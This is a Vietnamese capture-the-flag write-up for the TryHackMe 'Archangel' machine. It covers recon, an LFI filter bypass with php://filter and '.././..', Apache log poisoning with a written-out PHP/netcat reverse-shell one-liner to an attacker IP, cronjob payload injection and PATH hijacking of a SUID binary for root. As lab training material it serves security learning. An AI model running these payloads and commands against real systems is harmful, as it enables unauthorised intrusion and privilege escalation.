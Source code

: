 ﻿Port scan:

![enter image description here](https://imgur.com/q9fnf1w.png)

URL Brute-force với Gobuster:

![enter image description here](https://imgur.com/VzLE7Gw.png)

Kết quả brute-force có path /flags có vẻ thú vị, nhưng nó là rickroll prank. Không có gì có thể khai thác được sau khi xem qua page source và url brute-force. 
Giao diện khi truy cập webapp:

![enter image description here](https://imgur.com/KVSVS84.png)


Không có input nào để khai thác ở đây cả. Sau một thời gian dài bế tắc thì mình để ý thấy ở phần Header của page có chứa thông tin support, cụ thể là support@mafialive.thm. Truy cập mafialive.thm nhưng không được, mình nghĩ đó là một host khác trên target machine. Thêm host này vào /etc/hosts: `sudo echo 10.10.102.214 mafialive.thm >> /etc/hosts`. Truy cập được vào mafialive.thm và có flag đầu tiên:

![enter image description here](https://imgur.com/Gu49kVY.png)

Không có input để exploit, tiếp tục url brute-force:

![enter image description here](https://imgur.com/tSddjSd.png)


Tệp robots.txt:

![enter image description here](https://imgur.com/dqqHka5.png)

Truy cập /test.php:

![enter image description here](https://imgur.com/2jCyjIl.png)

Chức năng của button trong ảnh trên là thực thi file mrrobot.php như ảnh dưới đây:

![enter image description here](https://imgur.com/6ysPoA4.png)

Tốt rồi! Với việc tham số dưới dạng path, web app có thể chứa lỗ hổng Local File Inclusion (LFI). Thử truyền vào view=/etc/passwd nhưng không được phép truy cập -> có thể bị filter ở back-end. Có một số cách để đọc nội dung file khi có LFI, ta sẽ dùng php://filter để đọc mã nguồn file test.php (từ đó bypass filter). Truyền vào view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/test.php (convert sang base64 để web app không thực thi mã php của file test.php):

![enter image description here](https://imgur.com/nRqQSA1.png)

Decode base64 có được mã nguồn file test.php:

![enter image description here](https://imgur.com/pZ6I9XR.png)

Có được flag thứ 2 và logic của filter. Đoạn code để filter thực hiện lấy giá trị tham số view, filter không cho phép giá trị tham số view có chứa "../.." và bắt buộc phải có chứa "/var/www/html/devepment_testing". Ta sẽ dùng ".././.." để bypass filter. Truyền vào view=php://filter/resource=/var/www/html/development_testing/.././.././.././../etc/passwd

![enter image description here](https://imgur.com/713fl8L.png)

Đọc thành công file /etc/passwd. Tuy không có gì hữu ích để khai thác nhưng cũng đã chứng minh được bypass filter thành công. Để truy cập được vào hệ thống, ta sẽ sử dụng kỹ thuật tấn công Apache Log Poisoning thông qua LFI.
Đầu tiên, mở netcat listener ở local để bắt reverse shell: `nc -lvnp 4444`. Inject đoạn mã sau vào header User-Agent của request: `<?php system('rm -f /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.11.21.36 4444 >/tmp/f'); ?>`. Truyền vào view=php://filter/resource=/var/www/html/development_testing/.././.././.././../var/log/apache2/access.log
Ở local bắt được reverse shell -> access gained. 

![enter image description here](https://imgur.com/dGWEyRc.png)

Lấy flag user ở /home/archangel/user.txt

![enter image description here](https://imgur.com/RAtL3d5.png)

Ta cần đặc quyền của user archangel để truy cập vào /home/archangel/secret. Tìm kiếm cronjob bằng `cat /etc/crontab`. phát hiện có cronjob chạy bằng quyền của archangel và file thực thi có quyền 777. Chèn payload vào file thực thi cronjob để có reverse shell (quyền archangel):

![enter image description here](https://imgur.com/5NABWrU.png)
![enter image description here](https://imgur.com/WIhysOV.png)

Lấy flag user2 ở /home/archangel/secret/user2.txt

![enter image description here](https://imgur.com/NFPymjp.png)

Đến lúc privesc để lên root. Trong /home/archangel/secret/ có SUID binary backup. Chạy `./backup` được báo lỗi:

![enter image description here](https://imgur.com/GYpV8Ys.png)

Điều đó chứng tỏ file /home/archangel/secret/backup có thực hiện gọi đến `cp`. Chạy `strings /home/archangel/secret/backup` để tìm kiếm các chuỗi đọc được ở trong file binary:

![enter image description here](https://imgur.com/BUxgf2h.png)

Để ý có dòng `cp /home/user/archangel/myfiles/* /opt/backupfiles` gọi đến lệnh `cp` nhưng không dùng đường dẫn trực tiếp. Ta có thể lợi dụng PATH variable để khai thác. Tạo file thực thi `/tmp/cp` có nội dung `/bin/bash -p`, thay đổi biến PATH thành `/tmp:$PATH` (để hệ thống tìm đến /tmp trước và thực thi `cp` ta vừa tạo). Chạy lại file /home/archangel/secret/backup để có quyền root:

![enter image description here](https://imgur.com/iF5TjWY.png)


Leo thang đặc quyền root thành công. Lấy root flag ở /root/root.txt.

Happy Hacking!
